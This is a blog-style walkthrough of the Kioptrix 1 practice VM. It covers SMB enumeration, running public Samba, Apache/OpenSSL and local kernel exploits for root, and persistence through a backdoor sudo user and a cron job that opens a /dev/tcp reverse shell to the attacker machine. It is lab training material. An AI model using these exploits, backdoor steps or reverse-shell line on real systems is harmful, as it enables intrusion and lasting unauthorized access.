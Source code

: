 ```yaml
---
layout: post
title: Kioptrix 1 - Walkthrough
---
```


I have been slow on updating the blog. Not because I haven't been hacking VMs and doing other stuff. I just got lost in other stuff.

## Scanning

So as usual I started out scanning the machine. I have been learning more about metasploit and metasploit database so I tried to use that a bit more. So I scanned with db_nmap


```
Services
========

host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
192.168.1.103  22    tcp    ssh          open   OpenSSH 2.9p2 protocol 1.99
192.168.1.103  80    tcp    http         open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.1.103  111   tcp    rpcbind      open   2 RPC #100000
192.168.1.103  139   tcp    netbios-ssn  open   Samba smbd workgroup: PMYGROUP
192.168.1.103  443   tcp    ssl/http     open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.1.103  1024  tcp    status       open   1 RPC #100024
```

## Focus on smb
After checking out the website on 80 and 443, it just had default apache pages, I decided to focus on smb. I have never worked with smb, so I had to read up on what it is, what it does, and what it is for.

So samba, or smb, is a service that provides file-sharing between unix and windows. So you can have a linux-server in the office and have people backup and save all their data on the server, even though they use windows-machines. From a user-perspective you just see a folder that you can enter and add and remove whatever files you want.

So it is not that different from a NFS or FTP-server. And after you have connected to it you can mount the share to you local filesystem. Just like NFS.

So if we search for smb or samba in metasploit we get ton's of good stuff. Some auxiliary modules and a lot of windows exploits. And even some for linux.

```
search smb
```

I tried out a few of the auxiliary modules, but they were not that great. I also tried out a few nmap-scripts, like: enum-shares, and enum-users. But neither returned any new info. So instead I opted to just connect to the server the normal way. On kali you get smbclient included, so after reading the man/help-page I connected like this:

```
smbclient -L 192.168.1.103


Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Sharename       Type      Comment
	---------       ----      -------
	IPC$            IPC       IPC Service (Samba Server)
	ADMIN$          IPC       IPC Service (Samba Server)
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Server               Comment
	---------            -------
	KIOPTRIX             Samba Server

	Workgroup            Master
	---------            -------
	MYGROUP              KIOPTRIX

```

If you don't type any password you can make an anonymous login. Here we can see that the version is `Samba 2.2.1a`.

So I did a search with searchsploit, which I have come to really love because you can search with multiple search-terms, unlike `search` which is very buggy. And found some interesting stuff.

```
searchsploit samba linux
Samba <= 2.2.8 - Remote Root Exploit             | ./linux/remote/10.c
```

So I copied and compiled this exploit.
```
./samba -b 0 192.168.1.103
```

And it returned a root-shell. So yeah, not that difficult.

I also tried a few exploits against the apache server, as it was very old an vulnerable. There were several local exploits. But one I really liked was:

```
Apache 1.3.x - 2.0.48 - mod_userdir Remote Users Disclosure Exploit           | ./linux/remote/132.c
```

This was a really nice exploit. You can brutforce usernames really fast with it.


After I had entered I explored the system a bit. Found that root keeps a log in its mail for ssh-login attemps.
The configuration for the samba-server is found in /etc/samba

First I wanted to find out what distro it was, but it didn't show me the usual way:

```
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
```

Put in /etc I found

```
sh-2.05# cat redhat-release
cat redhat-release
Red Hat Linux release 7.2 (Enigma)
```

Then I tried to set up a new user for persistence in case someone would patch this 100 years old vulnerability. The `useradd` command was not found, so I had to add them to the path First

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Then I ran
```
useradd pelle
passwd pelle
```

Then I added the user to the sudo goup by doing
```
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

Once I had a new user with sudo-rights, I also added a cronjob to connect to the attcking machine every minute.

```
crontab -e
*/1 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

## Using openssl

So I read in the description of the VM that there are multiple ways to pwn this machine. So I set out to do it again.

This time I started focusing on Apache and OpenSSL.

So by visiting the webpage we understand that it is a RedHat-distro.
So after search with searchsploit I found this exploit

```
Apache OpenSSL - Remote Exploit (Multiple Targets) (OpenFuckV2.c)           | ./linux/remote/764.c
```

So I opened it and tried to compile it. And it failed. But in the exploit code I found
```
* http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/
```

So I followed the instructions and updated the script. And ran it. But the script kept dying. It said it managed to spawn a shell, but I was unable to interact. It turns out the second exploit it was downloading failed, even though I had updated the address. Anyways, I just removed the wget command, and got a shell as a apache user.
<<<<<<< HEAD
=======

Then I started the hunt for local exploits. Which I figured would be easy since the kernel is so old.
First I tried 33824.c. But I didn't compile.

Then I tried 3.c. And it compiled and gave me root.

```
bash-2.05$ gcc 3.c -o exp
gcc 3.c -o exp
bash-2.05$ ./exp
./exp
[+] Attached to 29558
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
```

## Tools used
- Nmap
- enum4linux
- Metasploit (to search for exploits)

## Conclusion

Although very old it was still useful and fun. Great with VMs that focus on exploits and not only on riddles.
